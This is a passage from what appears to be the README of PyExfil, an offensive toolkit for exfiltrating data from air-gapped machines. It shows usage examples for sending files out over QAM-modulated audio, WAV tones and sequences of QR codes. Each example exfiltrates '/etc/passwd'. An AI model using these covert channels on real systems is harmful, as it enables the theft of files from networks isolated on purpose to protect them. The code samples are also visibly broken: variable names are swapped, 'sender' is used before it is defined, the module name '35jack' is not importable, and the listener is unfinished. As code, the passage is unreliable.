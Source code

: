 We add noise to the modulated signal using the stats.norm.rvs() function in the scipy.stats library to simulate the effects of noise and interference in the transmission. We then play the modulated signal over the default audio output device using the sounddevice library.

```python
from pyexfil.physical.35jack import QAMReceiver, QAMTransmitter

recvr   = QAMTransmitter(   fs=48000, fc=2000, symbol_duration=0.01, bits_per_symbol=4,
                            modulation_order=16, noise_level=0.1)

sender.transmit(sender.encode_data("Hello world!".encode('utf-8'))

# Now listen to the audio output and you should hear the data being transmitted
sender  = QAMReceiver(      fs=48000, fc=2000, symbol_duration=0.01, bits_per_symbol=4, modulation_order=16)
recvr.receive()
```

> Make sure you `pip install -r requirements.txt`!


#### Audio
The Audio module will compile a file into a WAV function. When it's being played a listener can collect the tones and should be able (in a clean environment!) to reconstruct the file. This should be relatively useful for AirGapped networks which are extremely hardened.

```python
# Client (exfiltrator)
from pyexfil.physical.audio.exfiltrator import Exfiltrator

Exfiltrator("/etc/passwd")

# Server (listener)

""" Not Built Yet... """
```

#### QR Codes
This module is for machines that are, again, air-gapped from other networks and have severe hardening. It's meant to convert a file to a set of QR codes to be scanned by a camera on another machine and still be able to make sense of them.

It was written under MacOS so for any bugs please report to us so that we can fix them.

Installing requirements for this module: `pip install --user -r pyexfil/physical/qr/requirements.txt`.

For MacOS you might need `opencv` so:
```bash
brew tap homebrew/science
brew install opencv
```

Creating the QR Codes:
```python
from pyexfil.physical.qr.generator import CreateQRs, PlayQRs

CreateQRs('/etc/passwd', folder="/tmp/qr_gen0")
PlayQRs("/tmp/qr_gen0") # if you want the QRs to be displayed on the screen one by one.
```
